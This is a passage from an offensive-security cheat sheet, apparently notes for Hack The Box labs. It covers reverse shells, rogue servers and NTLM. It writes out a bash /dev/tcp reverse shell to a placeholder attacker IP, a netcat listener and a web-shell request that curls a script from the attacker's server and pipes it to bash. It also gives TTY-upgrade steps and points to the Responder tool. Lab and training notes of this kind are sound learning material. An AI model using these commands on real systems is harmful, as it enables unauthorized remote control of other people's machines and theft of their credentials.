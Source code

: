 Reverse basically means that it is the target that will initiate a connection request back us (the attacker). 

For example, once we have remote code execution in the target, we'll be able to download and execute a piece of code.

Usually the process is:
1. Create a file in the attacker machine containing a reverse shell payload:
```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```
2. Create a server in the attacker machine which will act as the shell I/O. Normally this is done with `netcat`.
```bash
nc -nvlp 1337
```
3. Start a webserver in the attacker machine that will server the reserve shell payload. You can do that with python (in the same directory as the payload):
```bash
python3 -m http.server 8000
```
4. Make the target machine download and execute the reverse shell payload:
```
http://thetoppers.htb/shell.php?cmd=curl%20%3CYOUR_IP_ADDRESS%3E:8000/shell.sh|bash
```

You can find a list of reverse shells here: https://www.revshells.com/

Once you have shell access, most likely it will not be interactive and you'll miss many functionalities. You can try to get a improve the shell if python is installed:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

Or, you can find mmore methods to improve the shell here https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### Rogue servers <a name="rogue"></a>

The idea of rogue server is to start a server in the attacker machine and make the target machine speak with the attacker server. This is used for instance to retrieve NTLM hash challenge or to explot log4j vulnerability.

#### NTLM <a name="ntlm"></a>

Windows New Technology LAN Manager (NTLM) is a suite of security protocols offered by Microsoft to authenticate users’ identity and protect the integrity and confidentiality of their activity. At its core, NTLM is a single sign on (SSO) tool that relies on a challenge-response protocol to confirm the user without requiring them to submit a password.

In order to mess with it, you might use the [responder](https://github.com/lgandx/Responder) tool.

